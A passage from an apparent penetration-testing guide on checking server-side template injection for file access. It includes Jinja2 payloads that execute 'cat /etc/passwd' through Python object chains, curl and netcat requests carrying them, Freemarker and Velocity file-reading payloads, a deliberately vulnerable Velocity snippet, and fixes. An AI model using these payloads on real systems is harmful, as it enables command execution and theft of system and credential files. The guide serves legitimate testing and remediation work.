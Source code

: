 **Tip**: Save code execution evidence in a report.

### 4. Test for File Access

**Objective**: Verify if template injection allows unauthorized file access.

**Steps**:
1. Inject file access payloads:
   - Test (Jinja2): `{{''.__class__.__mro__[1].__subclasses__()[407]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}`
   - Use cURL:
     ```bash
     curl -i "http://example.com/profile?name={{''.__class__.__mro__[1].__subclasses__()[407]('cat%20/etc/passwd',shell=True,stdout=-1).communicate()}}"
     ```
2. Check responses:
   - Look for file contents (e.g., `/etc/passwd`).
   - Test: `<#include "/etc/passwd">` (Freemarker).
3. Test other files:
   - Try: `/proc/self/environ`, `../config/db.conf`.
4. Use Netcat for raw requests:
   ```bash
   echo -e "GET /profile?name={{''.__class__.__mro__[1].__subclasses__()[407]('cat%20/etc/passwd',shell=True,stdout=-1).communicate()}} HTTP/1.1\nHost: example.com\n\n" | nc example.com 80
   ```

**Example Vulnerable Code (Java/Velocity)**:
```java
VelocityContext context = new VelocityContext();
context.put("input", request.getParameter("input"));
Template template = Velocity.getTemplate(request.getParameter("input"));
template.merge(context, writer);
```
Test: `#set($x=$runtime.getClass().forName('java.io.File').newInstance('/etc/passwd').text)$x`
Result: Reads `/etc/passwd`.

**Example Secure Code (Java/Velocity)**:
```java
VelocityContext context = new VelocityContext();
context.put("input", StringEscapeUtils.escapeHtml4(request.getParameter("input")));
Template template = Velocity.getTemplate("static.vm");
template.merge(context, writer);
```
Test: No file access.

**Remediation**:
- Restrict file access:
  ```python
  env = Environment(loader=FileSystemLoader('templates', followlinks=False))
  ```
- Validate input:
  ```java
  if (!input.matches("^[a-zA-Z0-9]+$")) throw new IllegalArgumentException();
  ```

**Tip**: Save file access evidence in a report.
